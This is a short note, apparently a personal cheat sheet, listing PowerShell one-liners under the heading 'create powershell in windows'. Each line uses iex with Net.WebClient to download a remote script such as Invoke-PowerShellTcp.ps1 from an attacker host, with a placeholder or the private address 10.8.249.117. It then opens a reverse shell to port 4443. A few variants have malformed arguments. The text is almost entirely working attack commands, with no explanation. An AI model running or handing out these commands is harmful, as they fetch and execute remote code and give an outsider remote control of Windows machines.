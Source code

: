 
create powershell in windows

 powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port_
 
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117:8081/psh.ps1');psh.ps1 -Reverse 10.8.249.117 -Port 4443
  
  
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -10.8.249.117  -Port 4443
  
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.249.117 -Port 4443
  
  Invoke-PowerShellTcp -Reverse -IPAddress 10.8.249.117 -Port 4443
 